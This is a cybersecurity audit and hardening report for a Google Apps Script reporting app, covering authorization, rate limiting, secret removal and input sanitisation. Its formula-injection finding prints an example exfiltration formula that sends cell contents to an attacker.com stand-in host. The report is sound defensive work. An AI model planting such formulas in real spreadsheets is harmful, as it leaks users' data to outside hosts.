

# Enterprise Cybersecurity Audit & Hardening Report

**System Name:** Sistem Lapor MPL — Digital Reporting System for Integrated Agriculture  
**Document Version:** 1.0 (Production Hardened)  
**Date:** August 30, 2026  
**Auditor Role:** Senior Cybersecurity Specialist  
**Target Environment:** Google Apps Script Web App (Multi-Deployment: Public Staff Portal & Internal Admin/Manager Console) + Google Sheets Database + Google Drive Storage  

---

## 1. Executive Summary

A comprehensive, end-to-end cybersecurity audit and security hardening process was conducted across the **Sistem Lapor MPL** codebase. The application supports dual operational workflows: zero-friction field-staff reporting (public web app) and role-gated administrative/executive consoles (Admin Queue, Master Roster, Form Builder, and Manager Analytics).

Prior to this hardening, the application exhibited critical security risks commonly found in serverless Apps Script deployments, including **Broken Function Level Authorization (BFLA)** on server RPC endpoints, **Spreadsheet Formula Injection (CWE-1236)**, **absence of rate limiting** on authentication/submission routes, and **hardcoded production IDs & emails** in source code.

Through this engagement, a centralized **`SecurityService.gs`** layer was introduced, all RPC entry points in `ClientAPI.gs` were fortified with rate limiting and RBAC access guards, all hardcoded secrets were extracted to `ScriptProperties`, input sanitization was applied across all persistence layers, and frontend DOM interactions were hardened against XSS.

### Security Posture Summary
| Assessment Category | Pre-Hardening Status | Post-Hardening Status | Remediation Standard |
|---|---|---|---|
| **Authentication Rate Limiting** | 🔴 Unrestricted | 🟢 **Strict 5 attempts / 15 min** | `CacheService` Token Bucket |
| **API Function Access Control** | 🔴 Unchecked RPCs (BFLA) | 🟢 **100% RBAC Enforced** | `SecurityService.AccessGuard` |
| **Hardcoded Secrets & IDs** | 🔴 Production IDs in `.gs`/`.html` | 🟢 **Zero Hardcoded Secrets** | `ScriptProperties` & `.env` |
| **Spreadsheet Formula Injection** | 🔴 Unsanitized Cell Writing | 🟢 **Escaped (`'`, `=`, `+`, `-`, `@`)** | CWE-1236 Mitigation |
| **Payload & Attachment Validation**| 🟡 Basic check | 🟢 **15MB Total / 5MB Image Cap** | MIME Whitelisting & Base64 Guard |
| **Information Disclosure** | 🔴 Exposed Stack Traces/IDs | 🟢 **Masked Client Errors** | `AccessGuard.maskSensitiveError` |

---

## 2. Threat Modeling (STRIDE Methodology)

The system was evaluated against the STRIDE threat classification model:

| STRIDE Category | Threat Scenario | Mitigation Implemented |
|---|---|---|
| **Spoofing** | Attacker calls administrative RPCs directly via `google.script.run` pretending to be authorized staff. | Enforced `SecurityService.AccessGuard` validating `Session.getActiveUser()` against configured dynamic RBAC sets on every RPC entry point. |
| **Tampering** | Attacker inputs malicious formulas (`=IMPORTXML(...)`) or XSS vectors into reporting fields. | Implemented `InputSanitizer.sanitizeForSpreadsheet` neutralizing leading formula triggers (`=`, `+`, `-`, `@`, `\t`, `\r`, `|`) and HTML entity escaping. |
| **Repudiation** | Actions (logout, status updates, user role modifications) performed without accountability. | Stamped user email and timestamps in `User_Roles` and `Admin_Queue` persistence logs. |
| **Information Disclosure** | Production Spreadsheet IDs and Google deployment keys exposed in source code or stack traces. | Eradicated all hardcoded IDs/keys; moved to `ScriptProperties`; masked raw server error traces. |
| **Denial of Service** | Script flood or rapid brute-force attacks against authentication routes or submission endpoints. | Introduced `SecurityService.RateLimiter`: strict 5 attempts/15 min on auth, 30/min on report submissions, 60/min on general RPCs. |
| **Elevation of Privilege** | Normal staff or unauthenticated visitor executes `saveUserRoleAccount` or `deleteEmployee`. | Strict RBAC isolation: Superadmin-only for roles/triggers/purges; Admin-only for queues/forms/employees. |

---

## 3. Vulnerability Findings & Remediation Matrix

### 3.1 [HIGH] Broken Function-Level Authorization on Client RPCs (OWASP API5:2023 / CWE-285)
- **Finding:** In Google Apps Script, all global functions exposed in `.gs` files can be invoked from the client browser console via `google.script.run.<functionName>()`. Previously, functions such as `saveEmployee`, `deleteEmployee`, `saveReportingFormSchema`, `cleanupIrrelevantSpreadsheetTabs`, and `getUserRolesList` executed without server-side verification of caller roles.
- **Remediation:** Added `SecurityService.AccessGuard.requireSuperadmin()`, `requireAdminOrSuperadmin()`, and `requireAuthorizedStaff()` at the entry point of every RPC method in `ClientAPI.gs`, `Setup.gs`, `MockSimulator.gs`, and `Triggers.gs`.

### 3.2 [HIGH] Spreadsheet Formula Injection / CSV Injection (CWE-1236)
- **Finding:** User input fields (`kendala`, `upaya`, custom field text, employee names) were directly appended to Google Sheet rows. If an input started with `=`, `+`, `-`, `@`, `\t`, or `\r`, Google Sheets would evaluate it as an active formula (e.g. exfiltrating data via `=IMPORTXML(CONCAT("https://attacker.com/", A1), "//a")`).
- **Remediation:** Created `SecurityService.InputSanitizer.sanitizeForSpreadsheet()` which detects dangerous formula characters and prefixes them with a single apostrophe (`'`), preventing cell formula execution while preserving display fidelity.

### 3.3 [MEDIUM] Lack of Rate Limiting & Brute-Force Exposure (CWE-307 / CWE-799)
- **Finding:** Authentication, role modification, and report submission endpoints lacked frequency throttling, exposing the app to brute-force credential stuffing and spreadsheet quota exhaustion.
- **Remediation:** Built a persistent `CacheService.getScriptCache()` token bucket rate limiter:
  - Auth routes: **5 attempts per 15 minutes (900s)** per identifier.
  - Submissions: **30 per minute**.
  - General API: **60 per minute**.
  - Read Queries: **120 per minute**.
  - Integrated 429 toast alert interceptor in `src/app.html`.

### 3.4 [MEDIUM] Hardcoded Production Secrets and Identifiers (CWE-798)
- **Finding:** Production Spreadsheet ID (`[REDACTED_SPREADSHEET_ID]`), Google Web App deployment IDs (`[REDACTED_DEPLOYMENT_ID]`), and developer email addresses (`[REDACTED_EMAIL]`) were hardcoded as fallback constants across `.gs` and `.html` files.
- **Remediation:** Purged all hardcoded IDs and emails across all codebase files. Migrated all configurations to `ConfigRepository` utilizing `PropertiesService.getScriptProperties()`. Enhanced `.gitignore` and created `.env.example`.

### 3.5 [MEDIUM] Unbounded Payload & Attachment Abuse (CWE-400 / CWE-434)
- **Finding:** File uploads did not validate maximum payload bytes or enforce strict image MIME-type whitelists prior to Drive persistence.
- **Remediation:** Implemented `SecurityService.PayloadValidator.validatePayloadSize` (15MB request cap) and `SecurityService.InputSanitizer.validatePhotoAttachment` (5MB photo cap, base64 character validation, whitelist: `image/jpeg`, `image/png`, `image/webp`, `image/heic`, `image/heif`).

---

## 4. Architectural Verification & Code Quality

### 4.1 Verification Checks Executed
1. **Secret Scanning:** `grep` search for production spreadsheet IDs (`1kzJI...`), deployment strings (`AKfycb...`), and developer emails yielded **0 residual instances** across the workspace.
2. **Git Tracking:** `git ls-files` confirmed that `.env`, `.env.*`, `.clasp.json`, and `.clasprc.json` are strictly untracked.
3. **Syntax & Architecture Integrity:** All Clean Architecture boundaries (Core Security -> Domain -> Application Services -> Delivery Adapters) remain decoupled and fully operational.

---

## 5. Residual Risks & Operational Recommendations

While the application codebase has been thoroughly hardened, the following environment-level best practices are recommended for the Google Workspace administrator:

1. **Google Workspace Context-Aware Access:** If deployed on a Google Workspace Enterprise domain, restrict execution of internal deployment URLs to managed enterprise corporate IP ranges or managed devices.
2. **Script Properties Backup:** Ensure that production `ScriptProperties` are securely archived in the organization's enterprise password/secrets manager (e.g. Google Secret Manager or 1Password).
3. **Periodic Access Reviews:** Superadmins should review the `User_Roles` tab on a monthly basis to revoke access for former staff or reassigned personnel.
4. **Google Drive Retention Policy:** Maintain automated scheduled daily triggers (`cleanupExpiredDailyPhotoFolders` and `deleteExpiredDailyTabs`) to enforce the 90-day data minimization and retention policy.

---

**Report Approved by:** Senior Cybersecurity Specialist  
**Security Status:** **HARDENED & PRODUCTION-READY**
